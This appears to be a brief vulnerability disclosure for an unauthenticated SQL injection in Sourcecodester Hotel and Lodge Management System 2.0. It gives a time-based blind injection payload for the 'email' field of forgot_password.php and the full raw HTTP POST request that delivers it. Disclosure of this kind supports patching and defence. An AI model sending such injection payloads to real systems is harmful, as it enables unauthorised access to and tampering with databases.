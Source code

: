 HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI

Disclosure date: 10/24/19

Sourcecodester Hotel and Lodge Management System 2.0 is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'email' parameter to the edit page for Customer, Room, Currency, Room Booking Details, or Tax Details.

Proof of Concept:

http://192.168.234.128/forgot_password.php

POST:btn_forgot=1&email=1' or sleep(5)%23

POC:
```
POST /forgot_password.php HTTP/1.1
Host: 192.168.234.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

btn_forgot=1&email=1' or sleep(5)%23
```

![Image text](1.jpg)
![Image text](2.jpg)
![Image text](3.jpg)
